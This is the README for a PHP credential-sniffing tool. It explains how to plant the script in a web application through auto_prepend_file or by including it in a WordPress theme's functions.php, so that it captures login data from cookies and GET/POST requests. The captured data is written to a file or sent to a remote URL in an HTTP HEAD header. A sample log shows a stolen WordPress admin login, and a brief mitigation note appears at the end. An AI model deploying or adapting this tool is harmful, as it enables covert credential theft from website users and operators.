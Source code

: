 # HTTP Credential Sniffer (for PHP Applications)

This is a simple script that will detect and log any credential communication over cookies and get/post requests and exfiltrate to somewhere. This method monitors data into application context/environment so cannot be defeated by the use of SSL.

## Installation / Deploy

Use the auto_prepend_file trick
```
php_value auto_prepend_file /var/www/path/to/hcs.php
```

Include into an important bootstrap file (like Wordpress' Themes function.php)
```php
include_once "hcs.php"
```

## Exfiltration Modes
* HCS_EXF_FILE -> Saves on a text file defined on 'HCS_EXF_FILE_FILENAME' constant (be sure to check file permissions!)
* HCS_EXF_HTTP_HEAD -> Issues an HTTP HEAD request via curl (requires php_curl) with X-HCS-Payload header containing the data (base64-encoded for compatibility, not evasion)

### Exfiltrating to a file
Sample output
```
#### HCS LOG START ## 01/03/2014 23:54:10 ####
Array
(
    [POST] => Array
        (
            [log] => admin
            [pwd] => notmypassword!
            [wp-submit] => Log In
            [redirect_to] => http://testwp/wordpress/wp-admin/
            [testcookie] => 1
        )

    [SERVER] => Array
        (
            [HTTP_HOST] => testwp
            [HTTP_USER_AGENT] => Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:27.0) Gecko/20100101 Firefox/27.0
            [HTTP_ACCEPT] => text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
            [HTTP_ACCEPT_LANGUAGE] => en-US,en;q=0.5
            [HTTP_ACCEPT_ENCODING] => gzip, deflate
            ...
            [REQUEST_URI] => /wordpress/wp-login.php
            [SCRIPT_NAME] => /wordpress/wp-login.php
            [PHP_SELF] => /wordpress/wp-login.php
            [REQUEST_TIME] => 1393728850
        )

)
### HCS LOG END ###

```

### HTTP Head

HCS will issue an HTTP HEAD request to the url supplied in 'HCS_EXF_HTTP_HEAD_URL' constant.
The header name is configured under the 'HCS_EXF_HTTP_HEAD_HEADER' constant.
You'll need to code your own data receiver or use the sample header_dumper.php.

## Mitigation
* Use [OTP](http://en.wikipedia.org/wiki/One-time_password)
* Use Hash-based challenge-response authentication with [Nonces](http://en.wikipedia.org/wiki/Cryptographic_nonce) (dangerous if incorrectly implemented)

## To-do
* Add HTTP Auth support

